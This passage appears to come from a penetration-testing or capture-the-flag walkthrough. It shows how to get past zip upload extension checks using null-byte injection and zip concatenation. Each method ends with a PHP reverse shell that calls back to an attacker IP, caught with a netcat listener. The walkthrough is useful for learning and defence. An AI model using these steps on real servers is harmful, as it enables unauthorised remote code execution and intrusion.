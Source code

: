 The application performs file extension checks within zip archives. The video demonstrates two methods to bypass this:

1.  **Null Byte Injection:**
    This technique exploits how some applications process filenames with null bytes (`%00`). PHP might read the full filename (including `.php%00.pdf`), but the underlying file system writes only up to the null byte, resulting in a `.php` file.

      * **Create PHP Reverse Shell:** Download a PHP reverse shell (e.g., from `pentestmonkey` or `ivan`'s GitHub Gist). Modify the IP address and port to your attacking machine (e.g., `10.10.14.8:9001`). Save it as `shell.php.pdf`.
      * **Create Zip Archive:**
        ```bash
        zip shell.zip shell.php.pdf
        ```
      * **Intercept with Burp Suite:** Upload `shell.zip` via the web interface and intercept the request in Burp Suite.
      * **Modify Filename in Hex Editor:** In the intercepted request, go to the Hex editor. Locate instances of `shell.php.pdf` within the zip file's metadata (there are usually two). Change the `.` before `pdf` to a **null byte (`00`)**. So, `shell.php.pdf` becomes `shell.php<NULL>pdf`.
      * **Forward Request:** Forward the modified request. The server should report "file uploaded successfully" and provide a link to the uploaded file.
      * **Set up Listener & Trigger Shell:** Set up a Netcat listener (`nc -lvnp 9001`) and then access the provided URL for the uploaded `shell.php` file. This should trigger a reverse shell.

2.  **Zip Concatenation (Zip Stacking):**
    This method combines two zip files: one legitimate (e.g., a PDF) and one containing the malicious payload. Different programs may read different parts of the combined zip, bypassing checks.

      * **Create Legitimate Zip:**
        ```bash
        echo "Please subscribe" > ipsec.pdf
        zip legit.zip ipsec.pdf
        ```
      * **Create Malicious Zip:** Use the `shell.php` (from the null byte method, without the `.pdf` extension).
        ```bash
        zip stacked.zip shell.php
        ```
      * **Concatenate Zips:**
        ```bash
        cat legit.zip stacked.zip > both.zip
        ```
      * **Upload `both.zip`:** Upload this `both.zip` file through the web interface.
      * **Set up Listener & Trigger Shell:** Set up your Netcat listener. When the server processes the `both.zip`, it extracts `shell.php`. Access the resulting `shell.php` URL to get a reverse shell.

## Local Enumeration & Active Directory Certificate Services (ADCS) Exploitation

Once a web shell is obtained, the focus shifts to internal enumeration and leveraging ADCS for privilege escalation.

